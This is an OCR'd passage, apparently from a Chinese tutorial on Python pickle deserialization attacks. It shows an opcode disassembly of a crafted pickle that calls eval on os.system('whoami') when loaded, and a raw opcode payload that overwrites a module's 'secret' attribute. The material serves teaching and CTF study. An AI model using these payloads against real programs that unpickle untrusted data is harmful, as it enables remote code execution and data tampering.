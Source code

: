 ```python
   39: p        PUT        1
   42: X        BINUNICODE 'get'
   50: o        OBJ        (MARK at 2)
   51: p    PUT        2
   54: 0    POP
   55: (    MARK
   56: g        GET        2
   59: (        MARK
   60: c            GLOBAL     'builtins globals'
   78: o            OBJ        (MARK at 59)
   79: X        BINUNICODE '__builtins__'
   96: o        OBJ        (MARK at 55)
   97: p    PUT        3
  100: (    MARK
  101: g        GET        0
  104: g        GET        3
  107: X        BINUNICODE 'eval'
  116: o        OBJ        (MARK at 100)
  117: p    PUT        4
  120: (    MARK
  121: g        GET        4
  124: X        BINUNICODE '__import__("os").system("whoami")'
  162: o        OBJ        (MARK at 120)
  163: 0    POP
  164: 0    POP
  165: .    STOP
highest protocol among opcodes = 2
'''
```
<a name="ErrvW"></a>
## 变量覆盖
```python
import pickle
import secret
print("secret:"+secret.secret)
opcode=b'''c__main__
secret
(S'secret'
S'Hacker!!!'
db.'''
fake=pickle.loads(opcode)
print("fakesecret:"+fake.secret)
#secret:sp4c1ous
#fakesecret:Hacker!!!
```
```python
opcode=b'''c__main__
secret
(S'secret' # secret 内的 secret 属性
S'Hacker!!!' # 指定要替换的内容
db.'''  # d创建空的dict然后 b 取前一个 Hacker!!! 
```
